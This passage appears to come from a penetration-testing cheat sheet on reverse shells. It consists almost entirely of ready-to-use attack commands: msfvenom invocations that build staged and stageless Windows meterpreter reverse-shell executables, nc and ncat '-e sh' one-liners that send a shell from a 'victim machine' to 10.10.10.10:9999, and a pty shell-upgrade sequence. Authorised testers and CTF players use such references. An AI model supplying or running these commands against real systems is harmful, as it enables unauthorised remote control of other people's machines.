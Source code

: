 - *quick way to upload nc.exe to victim machine*

<br>

#### MSFVenom

---

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o revshell.exe

```

- *staged x64 reverse-shell using MSFVenom*

<br>

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o revshell.exe
```

- *stageless x64 reverse-shell using MSFVenom*

<br>

#### Nc and Ncat

---

```bash
nc.exe 10.10.10.10 9999 -e sh
#spawn the shell on victim machine

ncat.exe 10.10.10.10 9999 -e sh
#spawn the shell on victim machine
```

- *spawn revshell on victim machine*

<br>

### Linux

#### Revshells

---

```powershell
https://www.revshells.com/
```

- *great website that does most of the work for you*

<br>

#### Upgrade shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL + Z         #backgrounds netcat session
stty raw -echo
fg               #brings netcat session back to the foreground
export TERM=xterm
```
